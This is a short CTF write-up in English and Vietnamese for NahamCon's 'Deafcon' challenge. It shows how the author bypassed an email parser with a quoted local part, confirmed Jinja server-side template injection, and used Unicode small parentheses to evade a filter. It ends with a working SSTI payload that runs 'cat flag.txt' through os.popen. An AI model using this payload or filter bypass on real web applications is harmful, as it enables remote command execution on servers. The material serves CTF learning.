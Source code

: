 # nahamcon CTF - Deafcon

## Write up 
Name: sam

Email: "{{request.application['__globals__'].__builtins__.__import__﹙'os'﹚.popen﹙'cat flag.txt'﹚.read﹙﹚}}"@m.edu

Here the symbols that look like ( and ) are actually high-unicode characters: SMALL LEFT/RIGHT PARENTHESIS 0xFE59 and 0xFE5A

These get past the filter but must "turn into" regular parenthesis when the expression is evaluated. I'm not sure why.

The email syntax checker allows certain characters ONLY if the portion to the left of the @ is surrounded by double-quotes.

## Note nhẹ

### Quick Review
1. App cho 2 phần user input là `name` và `email`, sau khi submit website trả về trang pdf chứa name và email vừa cung cấp.
2. Test param name thì bị filter chỉ white list regex `/a-zA-Z0-9/`
3. Param email có email parser ở backed, ví dụ như `a<img src="//a.com">@gmail.com` sẽ không đúng format và trả về lỗi không tuân thủ `RFC5322`. Ngoài ra nó filter ngoặc tròn '(' và ')'

### Exploit
1. Để bypass email parser: `"a<we're good>"@a.com`, (phần username được bọc bằng dấu ngoặc kép bypass parser)
2. Thử tiếp: `"a{{7*'7'}}"@a.com` được `7777777` tức dính lỗi *SSTI*
3. Ta dùng unicode bypass filter '(' và ')' được payload sau:

```
Email: "{{request.application['__globals__'].__builtins__.__import__﹙'os'﹚.popen﹙'cat flag.txt'﹚.read﹙﹚}}"@a.com
```

 unicode: https://www.fileformat.info/search/google.htm?q=PARENTHESIS&domains=www.fileformat.info&sitesearch=www.fileformat.info&client=pub-6975096118196151&forid=1&channel=1657057343&ie=UTF-8&oe=UTF-8&cof=GALT%3A%23008000%3BGL%3A1%3BDIV%3A%23336699%3BVLC%3A663399%3BAH%3Acenter%3BBGC%3AFFFFFF%3BLBGC%3A336699%3BALC%3A0000FF%3BLC%3A0000FF%3BT%3A000000%3BGFNT%3A0000FF%3BGIMP%3A0000FF%3BFORID%3A11&hl=en
